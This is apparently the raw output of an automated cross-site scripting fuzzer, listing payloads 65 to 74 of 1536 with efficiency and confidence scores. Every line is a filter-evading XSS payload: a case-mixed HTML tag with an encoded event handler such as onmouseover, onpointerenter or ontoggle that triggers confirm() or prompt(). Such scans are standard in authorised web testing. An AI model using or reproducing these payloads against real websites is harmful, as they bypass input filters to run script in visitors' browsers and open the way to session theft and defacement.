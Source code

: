 ------------------------------------------------------------
 Payload: <D3v%09ONMouseoVeR%09=%09(confirm)()//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 65/1536
 
------------------------------------------------------------
 Payload: <DetaILs/+/oNtogGle+=+(confirm)()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 66/1536
 
------------------------------------------------------------
 Payload: <HtMl%0aOnPoInterENTer%0a=%0aconfirm()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 67/1536
 
------------------------------------------------------------
 Payload: <A%09OnMouSeOVEr%0d=%0dconfirm()//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 68/1536
 
------------------------------------------------------------
 Payload: <a%0dONmOuSEOVEr+=+confirm()%0dx//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 69/1536
 
 Progress: 70/1536
 
------------------------------------------------------------
 Payload: <hTML/+/onPoINtERenTER%0a=%0a(prompt)``// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 71/1536
 
------------------------------------------------------------
 Payload: <D3V%0aoNpOINteRENTeR+=+confirm()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 72/1536
 
------------------------------------------------------------
 Payload: <DeTAiLS%0dontoGGLE%0a=%0a(prompt)``%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 73/1536
 
------------------------------------------------------------
 Payload: <HtMl%09onPoiNteRenteR+=+[8].find(confirm)// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 74/1536
 